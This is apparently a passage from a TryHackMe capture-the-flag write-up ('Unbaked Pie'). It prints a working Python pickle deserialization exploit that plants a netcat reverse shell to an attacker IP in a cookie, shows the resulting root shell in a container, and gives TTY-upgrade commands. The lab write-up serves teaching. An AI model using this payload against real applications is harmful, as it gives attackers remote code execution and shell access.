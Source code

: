 # Reverse Shell
### Updated file content
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
```console
local@local:~/Documents/tryhackme/unbaked_pie$ python exp.py 
b'gASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5ybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC42LjMxLjIxMyA5MDAxID4vdG1wL2aUhZRSlC4='
```
And if we made the request with the new value of the cookie, we get a shell back.
```console
local@local:~/Documents/tryhackme/unbaked_pie$ nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.28.159 47874
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
We are root but only inside the docker container.

## Getting a Proper Shell
Now this shell is a bit hard to work with as it is not interactive. It lacks using arrow keys, autocompletion, and using keys like CTRL+C to kill a process. So We have to make this session a interactive session.

## Getting a proper TTY
Now lets get a proper shell with auto completion.
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```console
local@local:~/Documents/tryhackme/unbaked_pie$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```console
root@8b39a559b296:/home/site#  export TERM=xterm
```
Now we have a proper shell.
